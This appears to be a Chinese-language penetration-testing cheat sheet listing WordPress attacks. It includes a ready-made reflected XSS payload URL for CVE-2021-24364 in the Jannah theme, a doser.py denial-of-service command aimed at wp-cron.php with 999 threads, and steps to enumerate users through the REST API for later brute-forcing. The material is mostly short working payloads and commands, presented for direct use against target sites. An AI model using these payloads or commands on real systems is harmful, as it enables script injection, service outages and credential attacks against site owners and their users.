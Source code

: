 

# CVE-2021-24364

Jannah WordPress 主题 5.4.4 之前的版本未在其 tie_get_user_weather AJAX 操作中正确清理选项 JSON 参数，然后将其输出回页面，从而导致反射型跨站脚本 (XSS) 漏洞。

## 检测与利用

- 将 `<Your_WP-Site-here>` 替换为您的 WP 站点` <Your_WP-Site-here>/wp-admin/admin-ajax.php?action=tie_get_user_weather&options=%7B%27location%27%3A%27Cairo%27%2C%27units%27%3A%27C%27%2C%27forecast_days%27%3A%275%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3Ecustom_name%27%3A%27Cairo%27%2C%27animated%27%3A%27true%27%7`
- 等待弹出窗口！

## 参考

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-24364)



# WP Cornjob DOS

这是另一个可以进行 DOS 攻击的地方。

## 检测

- 访问 site.com/wp-cron.php
- 您将看到一个空白页面，HTTP 状态代码为 200

## 漏洞利用

您可以使用相同的工具 Doser 来利用此漏洞

`python3 doser.py -t 999 -g 'https://site.com/wp-cron.php'`

## 参考

[GitHub Issue](https://github.com/wpscanteam/wpscan/issues/1299)

[Medium Writeup](https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30)



# WP 用户枚举

仅当目标网站隐藏当前用户或用户信息不公开时，此漏洞才会被接受。因此，攻击者可以利用这些用户数据进行暴力破解和其他操作。

## 检测

- 访问 site.com/wp-json/wp/v2/users/
- 您将在响应中看到包含用户信息的 JSON 数据。
